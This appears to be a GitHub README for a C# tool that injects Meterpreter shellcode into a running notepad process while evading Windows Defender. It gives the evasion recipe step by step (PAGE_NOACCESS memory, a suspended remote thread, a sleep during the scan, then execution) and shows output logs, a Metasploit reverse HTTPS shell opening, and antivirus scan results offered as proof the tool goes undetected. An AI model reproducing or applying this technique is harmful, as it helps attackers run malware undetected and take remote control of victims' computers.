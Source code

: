 # Suspended Thread Injection
Another meterpreter injection technique using C# that attempts to bypass Defender.

# Introduction
This code was written after reading [Bypassing Windows Defender Runtime Scanning](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) by **F-Secure Labs**. The technique I have written isn't the same but it got me thinking about how I can inject meterpreter into a remote process and go under the Defender radar.

The technique is quite simple:

- Open a remote process using `OpenProcess`.
- Decrypt the meterpreter payload in memory.
- Allocate some memory in the remote process using `VirtualAllocEx`, ensuring we assign the correct permissions to write to the memory of course.
- Write our payload into the allocated memory using `WriteProcessMemory`.
- Protect the memory using `VirtualProtectEx`, setting the protection to `PAGE_NOACCESS`.
- Create a new suspended thread using `CreateRemoteThread`.
- Sleep for 10 seconds while Defender scans the remote process memory for malicious code.
- Change the protection on the memory using `VirtualProtectEx`, setting the protection to `PAGE_EXECUTE_READ_WRITE`.
- Resuming the remote thread using `ResumeThread`

It would appear that protecting the page with `PAGE_NOACCESS` containing our meterpreter shellcode is not scanned by Defender and is not detected. By suspending the thread upon creation we are able to 'hold' the shellcode in memory until Defender has done it's scan then execute the shellcode when Defender has finished.

# Important
Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] OpenProcess with PID 49416.
[+] VirtualAllocEx (PAGE_EXECUTE_READ_WRITE) on 0x2C4.
[+] WriteProcessMemory to 0x247A8CE0000.
[+] VirtualProtectEx (PAGE_NOACCESS) on 0x247A8CE0000.
[+] CreateRemoteThread (suspended) to 0x247A8CE0000.
[+] Sleeping whilst Defender scans the remote process.
[+] VirtualProtectEx (PAGE_EXECUTE_READ_WRITE) on 0x247A8CE0000.
[+] Resume thread 0x368.
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: lsezjczd) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:60433) at 2021-10-07 08:32:00 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=bpyZ4JnoDmkL) on 07/10/2021.

![AV Scan](https://github.com/plackyhacker/SuspendedThreadInjection/blob/main/Suspended_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
